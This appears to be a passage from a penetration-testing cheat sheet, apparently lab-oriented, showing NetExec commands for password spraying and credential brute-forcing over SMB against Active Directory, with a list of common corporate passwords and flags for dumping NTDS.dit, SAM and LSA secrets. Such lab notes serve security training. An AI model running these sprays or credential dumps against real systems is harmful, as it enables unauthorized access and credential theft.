 #### Password Spraying (Multiple Users, Single Password)
```bash
# Test single password against multiple users (ALWAYS include domain!)
netexec smb 10.129.201.57 -u valid_users.txt -p 'Password123!' --continue-on-success -d inlanefreight.local

# Common corporate passwords to test
cat > common_passwords.txt << EOF
Password123!
Welcome2024!
CompanyName123!
Summer2024!
Spring2024!
P@ssw0rd!
Password1
EOF

# Spray multiple passwords
netexec smb 10.129.201.57 -u valid_users.txt -p common_passwords.txt --continue-on-success -d inlanefreight.local
```

#### Essential NetExec Flags for AD Attacks
```bash
# Core flags you should ALWAYS use in AD environments:
-d DOMAIN.local          # Domain name (CRITICAL for AD!)
--continue-on-success    # Don't stop after first success
--verbose                # More detailed output
--ntds                   # Extract NTDS.dit (requires admin)
--sam                    # Extract SAM database
--lsa                    # Extract LSA secrets
--shares                 # Enumerate shares
--sessions               # Show active sessions
--pass-pol               # Check password policy
--rid-brute              # RID brute force enumeration

# Example with all useful flags:
netexec smb 10.129.202.85 -u valid_users.txt -p common_passwords.txt \
  --continue-on-success -d ILF.local --verbose --shares --pass-pol
```

#### Complete Username/Password Combination Testing
```bash
# Test all combinations
netexec smb 10.129.201.57 -u usernames.txt -p passwords.txt

# From username:password file
netexec smb 10.129.201.57 -u combo_file.txt --no-bruteforce

# Format of combo_file.txt:
# admin:password
# jmarston:Password123
# cjohnson:Finance2024!
```
